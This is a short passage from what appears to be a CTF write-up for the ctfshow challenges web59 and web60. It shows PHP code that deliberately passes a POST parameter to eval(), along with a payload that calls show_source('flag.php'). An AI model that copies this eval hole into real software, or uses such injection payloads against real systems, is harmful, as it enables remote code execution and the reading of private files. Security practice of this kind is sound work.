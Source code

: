 

pyload:show_source('flag.php');

### web59

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

pyload:c=show_source('flag.php');

### web60

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

